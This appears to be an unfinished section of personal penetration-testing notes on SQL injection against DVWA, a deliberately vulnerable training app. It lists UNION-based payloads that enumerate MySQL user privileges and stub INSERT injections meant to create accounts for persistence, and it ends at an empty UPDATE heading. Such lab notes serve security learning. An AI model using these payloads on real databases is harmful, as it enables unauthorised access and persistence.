 # 04 - Initial Foothold and Persistence

Search Tag(s): #sql-injection #union #initial-access #persistence #enumeration-and-discovery #webshell #dvwa

## 4.1 - Create User Account

TODO: Figure out using SQL queries to create a user account in the current database, and create a database user account for the DBMS server

### 4.1.1 - Current Database User Account

> [!IMPORTANT] Conditions
> The DB user must have **SELECT, INSERT, UPDATE, DELETE, DROP** privileges.

#### 4.1.1.2 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user WHERE user = 'dvwa'#

' UNION SELECT NULL, CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user WHERE Select_priv = 'Y' OR Insert_priv = 'Y' OR Update_priv = 'Y' OR Delete_priv = 'Y' OR Drop_priv = 'Y'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE GRANTEE LIKE "'dvwa'%"#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR PRIVILEGE_TYPE LIKE 'INSERT' OR PRIVILEGE_TYPE LIKE 'UPDATE' OR PRIVILEGE_TYPE LIKE 'DELETE' OR PRIVILEGE_TYPE LIKE 'DROP' AND GRANTEE LIKE "'dvwa'%"#
```

#### 4.1.1.3 - INSERT values

```
' INSERT INTO dvwa.users values()#

; INSERT INTO dvwa.users values()#
```

#### 4.1.1.4 - UPDATE values
